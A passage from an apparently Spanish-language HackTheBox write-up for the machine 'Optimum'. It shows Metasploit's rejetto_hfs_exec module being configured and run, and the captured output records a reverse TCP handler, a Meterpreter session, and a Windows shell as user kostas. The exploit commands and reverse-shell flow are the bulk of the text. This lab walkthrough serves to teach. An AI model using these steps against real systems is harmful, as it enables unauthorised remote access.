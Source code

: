* Configurando Exploit:
```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > set RHOSTS 10.10.10.8
RHOSTS => 10.10.10.8
msf6 exploit(windows/http/rejetto_hfs_exec) > set LHOST Tu_IP
LHOST => Tu_IP
```

* Iniciando Exploit:
```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4444 
[*] Using URL: http://Tu_IP:8080/SUxJCT
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /SUxJCT
[*] Sending stage (175686 bytes) to 10.10.10.8
[!] Tried to delete %TEMP%\xiIhUkZlpFlSwI.vbs, unknown result
[*] Meterpreter session 1 opened (Tu_IP:4444 -> 10.10.10.8:49162)
[*] Server stopped.
.
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > shell
Process 460 created.
Channel 2 created.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
.
C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas
```

Esta fue una forma muy sencilla para ganar acceso a la máquina.


<br>
<br>
<hr>
<div style="position: relative;">
	<h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="PostEnum">Enumeración de Máquina</h2>
